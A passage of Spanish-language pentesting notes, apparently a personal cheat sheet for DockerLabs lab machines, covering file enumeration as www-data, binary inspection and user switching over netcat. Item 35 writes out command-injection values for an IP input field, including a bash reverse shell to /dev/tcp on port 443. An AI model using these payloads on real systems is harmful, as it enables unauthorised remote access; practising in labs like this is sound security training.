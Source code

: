 -------------------------------------------------------------------------------

## 33.- podemos ejecutar el siguiente comando si somos el usuario www-data y ver cosas interesantes:

find / -type f -user www-data 2>/dev/null | grep -v proc

Busca en el sistema todos los archivos regulares (-type f) que pertenezcan al usuario www-data.

Descarta cualquier mensaje de error generado durante la búsqueda.

Filtra y elimina de la salida cualquier archivo o directorio que esté relacionado con /proc.

ejemplo: máquina swiss de dockerlabs

-------------------------------------------------------------------------------

## 34.- forma de analizar un binario en mi kali:

strings sendinv2

-------------------------------------------------------------------------------

## 35.- si tengo por ejemplo un input dónde pueda escribir una ip y ver si tengo conectividad con la ip, puedo intentar REC , Ejecución remota de comandos.

En general en cualquier input

para el caso:

172.17.0.2; ls

172.17.0.2; bash -c  "/bin/bash -i >& /dev/tcp/172.17.0.1/443 0>&1"

-------------------------------------------------------------------------------

## 36.- cuando tenga un problema al cambiar de usuario de usuario bobby a usuario gladys por ejemplo y la conexión por netcat siendo el usuario bobby aún se cae al cambiar a gladys, 

lo que se hace es enviar desde una conexión netcat desde bobby a otra conexión netcat, y en esta nueva conexión recién cambiar de usuario.


ejemplo  máquina pingpong de dockerlabs

-------------------------------------------------------------------------------

## 37.- ejecución de un binario:

hay que darle permiso de ejecución: chmod +x ./secret

./secret
